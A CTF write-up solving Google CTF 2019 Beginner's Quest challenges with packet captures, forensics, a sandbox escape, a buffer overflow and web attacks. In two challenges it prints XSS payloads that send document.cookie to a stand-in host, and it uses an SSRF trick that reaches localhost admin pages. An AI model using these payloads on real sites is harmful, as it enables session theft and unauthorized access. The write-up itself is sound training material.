

# Write-up: Google CTF 2019 Beginner’s Quest

A write-up for several of the [Google’s CTF 2019](https://capturetheflag.withgoogle.com/#beginners/) *Beginner’s Quest* challenges.





## Contents

* [day0-easiest: Enter Space-Time Coordinates](#day0-easiest)
* [day1-easier: Satellite](#day1-easier)
* [day2-easier: Home Computer](#day2-easier)
* [day2-easy: Work Computer](#day2-easy)
* [day3-easier: Government Agriculture Network](#day3-easier)
* [day4-easiest: STOP GAN (bof)](#day4-easiest)
* [day5-easier: Cookie World Order](#day5-easier)
* [day5-easy: FriendSpaceBookPlusAllAccessRedPremium.com](#day5-easy)
* [day6-easier: Drive to the target](#day6-easier)


## day0-easiest
**Enter Space-Time Coordinates** `[misc]`

```
$ strings rand2 | grep flag
Arrived at the flag. Congrats, your flag is: CTF{welcome_to_googlectf}
Arrived somewhere, but not where the flag is. Sorry, try again.
```

**Flag**: `CTF{welcome_to_googlectf}`


## day1-easier
**Satellite** `[networking]`

```
$ ./init_sat
Hello Operator. Ready to connect to a satellite?
Enter the name of the satellite to connect to or 'exit' to quit
osmium
Establishing secure connection to osmium
 satellite...
Welcome. Enter (a) to display config data, (b) to erase all data or (c) to disconnect

a
Username: brewtoot password: ********************	166.00 IS-19 2019/05/09 00:00:00	Swath 640km	Revisit capacity twice daily, anywhere Resolution panchromatic: 30cm multispectral: 1.2m	Daily acquisition capacity: 220,000km²	Remaining config data written to: https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E
```

The Google Doc file at <https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E> contains this Base64 encoded string: 

`TG9naW5zIGZvciBob21lIGFuZCB3b3JrIGNvbXB1dGVyOgpVc2VybmFtZTogd2Vib3J0dG8KUGFzc3dvcmQ6IHRvdGFsbHktbm90LWEtZmxhZy1rZWVwLXNuaWZmaW5nCg==`

It is unclear what purpose these credentials serve:

```Logins for home and work computer:
Username: webortto
Password: totally-not-a-flag-keep-sniffing
```

Wireshark (with display filter: `ip.src == 34.76.101.29`) reveals the masked out “password”:

```
0000   08 00 27 35 af 6d 52 54 00 12 35 00 08 00 45 00   ..'5¯mRT..5...E.
0010   00 7f 02 81 00 00 ff 06 25 80 22 4c 65 1d 0a 00   ......ÿ.%."Le...
0020   02 0f 05 39 ae bc 00 00 1e af 7f 10 5e d3 50 18   ...9®¼...¯..^ÓP.
0030   80 00 f6 7e 00 00 57 65 6c 63 6f 6d 65 2e 20 45   ..ö~..Welcome. E
0040   6e 74 65 72 20 28 61 29 20 74 6f 20 64 69 73 70   nter (a) to disp
0050   6c 61 79 20 63 6f 6e 66 69 67 20 64 61 74 61 2c   lay config data,
0060   20 28 62 29 20 74 6f 20 65 72 61 73 65 20 61 6c    (b) to erase al
0070   6c 20 64 61 74 61 20 6f 72 20 28 63 29 20 74 6f   l data or (c) to
0080   20 64 69 73 63 6f 6e 6e 65 63 74 0a 0a             disconnect..
```

```
0000   08 00 27 35 af 6d 52 54 00 12 35 00 08 00 45 00   ..'5¯mRT..5...E.
0010   01 93 02 86 00 00 ff 06 24 67 22 4c 65 1d 0a 00   ......ÿ.$g"Le...
0020   02 0f 05 39 ae bc 00 00 1f 06 7f 10 5e d5 50 18   ...9®¼......^ÕP.
0030   7f fe 61 14 00 00 55 73 65 72 6e 61 6d 65 3a 20   .þa...Username: 
0040   62 72 65 77 74 6f 6f 74 20 70 61 73 73 77 6f 72   brewtoot passwor
0050   64 3a 20 43 54 46 7b 34 65 66 63 63 37 32 30 39   d: CTF{4efcc7209
0060   30 61 66 32 38 66 64 33 33 61 32 31 31 38 39 38   0af28fd33a211898
0070   35 35 34 31 66 39 32 65 37 39 33 34 37 37 66 7d   5541f92e793477f}
0080   09 31 36 36 2e 30 30 20 49 53 2d 31 39 20 32 30   .166.00 IS-19 20
0090   31 39 2f 30 35 2f 30 39 20 30 30 3a 30 30 3a 30   19/05/09 00:00:0
00a0   30 09 53 77 61 74 68 20 36 34 30 6b 6d 09 52 65   0.Swath 640km.Re
00b0   76 69 73 69 74 20 63 61 70 61 63 69 74 79 20 74   visit capacity t
00c0   77 69 63 65 20 64 61 69 6c 79 2c 20 61 6e 79 77   wice daily, anyw
00d0   68 65 72 65 20 52 65 73 6f 6c 75 74 69 6f 6e 20   here Resolution 
00e0   70 61 6e 63 68 72 6f 6d 61 74 69 63 3a 20 33 30   panchromatic: 30
00f0   63 6d 20 6d 75 6c 74 69 73 70 65 63 74 72 61 6c   cm multispectral
0100   3a 20 31 2e 32 6d 09 44 61 69 6c 79 20 61 63 71   : 1.2m.Daily acq
0110   75 69 73 69 74 69 6f 6e 20 63 61 70 61 63 69 74   uisition capacit
0120   79 3a 20 32 32 30 2c 30 30 30 6b 6d c2 b2 09 52   y: 220,000km².R
0130   65 6d 61 69 6e 69 6e 67 20 63 6f 6e 66 69 67 20   emaining config 
0140   64 61 74 61 20 77 72 69 74 74 65 6e 20 74 6f 3a   data written to:
0150   20 68 74 74 70 73 3a 2f 2f 64 6f 63 73 2e 67 6f    https://docs.go
0160   6f 67 6c 65 2e 63 6f 6d 2f 64 6f 63 75 6d 65 6e   ogle.com/documen
0170   74 2f 64 2f 31 34 65 59 50 6c 75 44 5f 70 69 33   t/d/14eYPluD_pi3
0180   38 32 34 47 41 46 61 6e 53 32 39 74 57 64 54 63   824GAFanS29tWdTc
0190   4b 78 50 5f 58 55 78 78 37 65 33 30 33 2d 33 45   KxP_XUxx7e303-3E
01a0   0a                                                .
```

**Flag**: `CTF{4efcc72090af28fd33a2118985541f92e793477f}`


## day2-easier
**Home Computer** `[forensics]`

```
$ mkdir /tmp/day2-easier
$ mount family.nfts /tmp/day2-easier
$ cd /tmp/day2-easier
$ cd Users/Family/Documents
$ ll
total 4.5K
drwxrwxrwx 1 root root    0 Jun 12 20:38 .
drwxrwxrwx 1 root root 4.0K Jun 12 20:37 ..
-rwxrwxrwx 1 root root   58 Jun 12 20:38 credentials.txt
-rwxrwxrwx 1 root root    0 Jun 12 20:37 document.pdf
-rwxrwxrwx 1 root root    0 Jun 12 20:37 preview.pdf
$ cat credentials.txt 
I keep pictures of my credentials in extended attributes.
$ getfattr credentials.txt 
# file: credentials.txt
user.FILE0
$ getfattr -d --only-values credentials.txt > /tmp/pic.png
$ file /tmp/pic.png
/tmp/pic.png: PNG image data, 1234 x 339, 8-bit/color RGB, non-interlaced
```

**Flag**: `CTF{congratsyoufoundmycreds}`


## day2-easy

**Work Computer** `[sandbox]`

The challenge here is that `cat`, `less` and similar tools aren’t available.

Contents of `/bin/`and `/usr/bin/`:
<https://github.com/weibell/ctf-google2019-beginners/tree/master/write-up/day2-easy>

```
$ nc readme.ctfcompetition.com 1337
> id
uid=0 gid=0 euid=1338 groups=0
> ls -lah
total 12
drwxrwxrwt    2 0        0             80 Jun 22 21:43 .
drwxr-xr-x   20 0        0           4.0K Jun 13 14:28 ..
----------    1 1338     1338          33 Jun 22 21:43 ORME.flag
-r--------    1 1338     1338          28 Jun 22 21:43 README.flag
> cat README.flag
error: No such file or directory
> tar c README.flag
README.flag0000400000247200024720000000003413503623301010407 0ustar  13381338CTF{4ll_D474_5h4ll_B3_Fr33}
```

Alternative:

```
> makemime README.flag
Mime-Version: 1.0
Content-Type: multipart/mixed; boundary="1835472543-764022969-1272091889"

--1835472543-764022969-1272091889
Content-Type: application/octet-stream; charset=us-ascii
Content-Disposition: inline; filename="README.flag"
Content-Transfer-Encoding: base64

Q1RGezRsbF9ENDc0XzVoNGxsX0IzX0ZyMzN9Cg==
--1835472543-764022969-1272091889--
> getconf PATH
/bin:/usr/bin
```

```
$ echo "Q1RGezRsbF9ENDc0XzVoNGxsX0IzX0ZyMzN9Cg==" | base64 --decode
CTF{4ll_D474_5h4ll_B3_Fr33}
```

**Flag 1**: `CTF{4ll_D474_5h4ll_B3_Fr33}`

### Flag 2

`ORME.flag` contains a second flag.

```
> ls -lah /lib
total 3740
drwxr-xr-x    5 65534    65534       4.0K Jun 13 14:28 .
drwxr-xr-x   20 0        0           4.0K Jun 13 14:28 ..
drwxr-xr-x    3 65534    65534       4.0K May  9 20:49 apk
drwxr-xr-x    2 65534    65534       4.0K May  9 20:49 firmware
-rwxr-xr-x    1 65534    65534     570.6K Mar 19 09:56 ld-musl-x86_64.so.1
lrwxrwxrwx    1 65534    65534         19 May  9 20:49 libc.musl-x86_64.so.1 -> ld-musl-x86_64.so.1
-rwxr-xr-x    1 65534    65534       2.5M Mar 15 14:28 libcrypto.so.1.1
-rwxr-xr-x    1 65534    65534     507.5K Mar 15 14:28 libssl.so.1.1
lrwxrwxrwx    1 65534    65534         14 May  9 20:49 libz.so.1 -> libz.so.1.2.11
-rwxr-xr-x    1 65534    65534      97.8K Nov 15  2018 libz.so.1.2.11
drwxr-xr-x    2 65534    65534       4.0K May  9 20:49 mdev
> /lib/ld-musl-x86_64.so.1 /bin/busybox chmod +r ORME.flag
> tar c ORME.flag
ORME.flag0000444000247200024720000000004113503633511010226 0ustar  13381338CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

Alternative:


```
> setpriv busybox chmod +r ORME.flag
> setpriv busybox cat ORME.flag
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

**Flag 2**: `CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}`


## day3-easier

**Government Agriculture Network** `[web]`

Site: <https://govagriculture.web.ctfcompetition.com/>

XSS attack: `<script>location.href='http://PUBLIC_URL/'+document.cookie</script>`

```
$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from localhost 48038 received!
GET /?flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};%20session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV HTTP/1.1
## ...
Referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3Elocation.href%3D%27http%3A%2F%2FPUBLIC_URL%2F%27%2Bdocument.cookie%3C%2Fscript%3E
## ...
```

Alternative, but requires cookie anyway:

```
GET /admin HTTP/1.1
Host: govagriculture.web.ctfcompetition.com
Cookie: session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV


```

```
HTTP/1.1 200 OK
Content-Type: text/plain
Vary: Accept-Encoding
X-Appengine-Log-Flush-Count: 0
X-Cloud-Trace-Context: 998104ef522da181e8360ab9035eb6ab
Date: Sun, 23 Jun 2019 13:24:12 GMT
Server: Google Frontend
Content-Length: 37

CTF{8aaa2f34b392b415601804c2f5f0f24e}
```

**Flag**: `CTF{8aaa2f34b392b415601804c2f5f0f24e}`


## day4-easiest
**STOP GAN (bof)**  `[pwn]` **–TODO–**

The second flag remains unsolved.

```
$ nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands: 
run
quit
>>run
Inputs: run
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
```

**Flag**: `CTF{Why_does_cauliflower_threaten_us}` 


## day5-easier
**Cookie World Order** `[web]`

Site: <https://cwo-xss.web.ctfcompetition.com/>

Post message: `<SCRIPT>new Image().src="https://PUBLIC_URL/"+document.cookie</SCRIPT>`

Note that there will be two incoming requests, one from ourselves and one from the victim.

```
$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from localhost 46010 received!
GET /?flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};%20auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz HTTP/1.1
## ...
Referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3CSCRIPT%3Enew%20Image().src=%22http://PUBLIC_URL/%22+document.cookie%3C/SCRIPT%3E
## ...
```

**Flag 1**: `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`

### Flag 2

A second flag can be obtained by using the `auth` token in the cookie.

Without cookie:

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 302 FOUND
Date: Sun, 23 Jun 2019 11:50:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 209
Server: gunicorn/19.9.0
Location: http://cwo-xss.web.ctfcompetition.com/
Via: 1.1 google

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.
```

With cookie:

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com
Cookie: auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:51:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1115
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-side-nav">
      <a href="/admin/users">
        <div class="admin-side-item">
          Users
        </div>
      </a>
      <a href="/admin/livestreams">
        <div class="admin-side-item">
          Livestreams
        </div>
      </a>
      <a href="/admin/controls">
        <div class="admin-side-item">
          Camera Controls
        </div>
      </a>
    </div>
    <div class="admin-container">
      <div class="admin-message">
        
      </div>
    </div>
  </body>
</html>
```


```
GET /admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com
Cookie: auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz


```

```
HTTP/1.1 403 FORBIDDEN
Date: Sun, 23 Jun 2019 11:55:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 37
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

Requests only accepted from 127.0.0.1
```

`/watch?livestream=...` requires the argument to begin with `http://cwo-xss.web.ctfcompetition.com`:

```
GET /watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:57:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1529
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-wrapper">
      <div class="admin-side-nav">
        <a href="/admin/users">
          <div class="admin-side-item">
            Users
          </div>
        </a>
        <a href="/admin/livestreams">
          <div class="admin-side-item">
            Livestreams
          </div>
        </a>
        <a href="/admin/controls">
          <div class="admin-side-item">
            Camera Controls
          </div>
        </a>
      </div>
      <div class="admin-container">
        <div class="admin-message">
          CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}
        </div>
        <div class="controls-title">
          Livestream Controls
        </div>
        <div class="livestream-video">
          <video loop autoplay muted src="/watch?livestream=http://localhost//livestream/garden-livestream.webm" />
        </div>
      </div>
    </div>
  </body>
</html>


```

**Flag 2**: `CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}`


## day5-easy
**FriendSpaceBookPlusAllAccessRedPremium.com** `[reversing]` 

See: [./day5-easy](https://github.com/weibell/ctf-google2019-beginners/tree/master/write-up/day5-easy)

**Flag**: `CTF{Peace_from_Cauli!}`


## day6-easier
**Drive to the target** `[coding]`

See: [./day6-easier](https://github.com/weibell/ctf-google2019-beginners/tree/master/write-up/day6-easier)

**Flag**: `CTF{Who_is_Tardis_Ormandy}`